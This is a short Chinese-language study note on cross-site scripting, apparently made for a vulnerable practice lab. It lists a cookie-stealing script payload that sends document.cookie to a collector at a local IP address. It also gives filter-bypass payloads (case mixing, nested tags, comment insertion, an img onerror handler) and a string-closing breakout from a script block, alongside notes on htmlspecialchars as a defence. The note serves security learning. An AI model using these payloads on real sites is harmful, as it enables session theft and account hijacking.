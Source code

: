 # xss的相关应用

## 获取cookie

构造cookie传到参数

`<script>document.location= 'http://192.168.87.1/pkxss/xcookie/cookie.php?cookie=' + document.cookie;</script>`

## post型cookie

伪造一个站点，用来接收数据。

## xss钓鱼

basic认证

## xss键盘记录

跨域操作，跨域操作需要管理员同意。

## xss盲打

即xss脚本不会在客户端而是在管理员处运行。

## xss绕过

### 转换

1. 前端限制绕过，直接抓包重放，或者修改html前端代码
2. 大小写 如`<scrIpt>alert("fuck u")</ScRipT>`
3. 拼凑，绕过后台的一些替换如`<scri<srcipt>pt>alert(1111)</script>pt>`
4. 注释干扰 `<scri<!--test-->pt>alert(111)</sc<!--test-->ript>`

### 编码

后台会过滤一些特殊字符，如<script>,但可以被编码，后台不一定会过滤，当浏览器对该字符进行识别时，会翻译成正常的标签，执行。

注意编码能否在输出点被正常识别和翻译。

例如`<img src=x onerror="alert(254125)"/>`

绕过思路很多，发挥自己的想象力。

## htmlspecialchars()函数

php中将预定义的字符转换为html实体的函数

预定义的字符

& &amp

" &quot

' &#039

< &It             > &gt

可用的引号类型

ENT_COMPAT -默认 仅编码双引号

ENT_QUTOTES -编码双引号和单引号。//相对好用

ENT_NOQUOTES - 不编码任何引号。 

可能存在一些编码的漏洞

## href与js与防御措施

针对href javascript:alert(1114152),具体看源码xss_03.php

针对 js

```js
<script>
    $ms='123456';
    if($ms.length != 0){
        if($ms == 'tmac'){
            $('#fromjs').text('tmac确实厉害,看那小眼神..')
        }else {
//            alert($ms);
            $('#fromjs').text('无论如何不要放弃心中所爱..')
        }

    }


</script>
```

闭合掉代码

```
<script>
    $ms='x'</script><script>alert(123456)</script>';
    if($ms.length != 0){
        if($ms == 'tmac'){
            $('#fromjs').text('tmac确实厉害,看那小眼神..')
        }else {
//            alert($ms);
            $('#fromjs').text('无论如何不要放弃心中所爱..')
        }

    }


</script>
```

`x'</script><script>alert(123456)</script>`